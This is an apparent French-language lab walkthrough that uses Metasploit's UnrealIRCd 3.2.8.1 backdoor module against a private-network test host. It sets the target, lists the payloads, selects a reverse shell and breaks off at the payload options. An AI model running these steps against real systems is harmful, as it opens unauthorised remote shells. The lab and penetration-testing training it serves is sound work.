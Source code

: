 ```bash

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.56.115
RHOSTS => 192.168.56.115
```

On doit également définir un payload. On les liste avec `show payloads`. On peut alors selectionner un payload avec `set payload`.

On va ici choisir le reverse shell `cmd/unix/reverse`.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                Disclosure Date  Rank    Check  Description
   -   ----                                ---------------  ----    -----  -----------
   0   cmd/unix/bind_perl                                   manual  No     Unix Command Shell, Bind TCP (via Perl)
   1   cmd/unix/bind_perl_ipv6                              manual  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   cmd/unix/bind_ruby                                   manual  No     Unix Command Shell, Bind TCP (via Ruby)
   3   cmd/unix/bind_ruby_ipv6                              manual  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   cmd/unix/generic                                     manual  No     Unix Command, Generic Command Execution
   5   cmd/unix/reverse                                     manual  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   cmd/unix/reverse_bash_telnet_ssl                     manual  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   cmd/unix/reverse_perl                                manual  No     Unix Command Shell, Reverse TCP (via Perl)
   8   cmd/unix/reverse_perl_ssl                            manual  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   cmd/unix/reverse_ruby                                manual  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  cmd/unix/reverse_ruby_ssl                            manual  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  cmd/unix/reverse_ssl_double_telnet                   manual  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
```

On peut voir les options du `PAYLOAD` avec la commande `options` désormais.\
On définit en LHOST notre IP sur l'interface réseau privé hôte.

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > options 

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.56.115   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```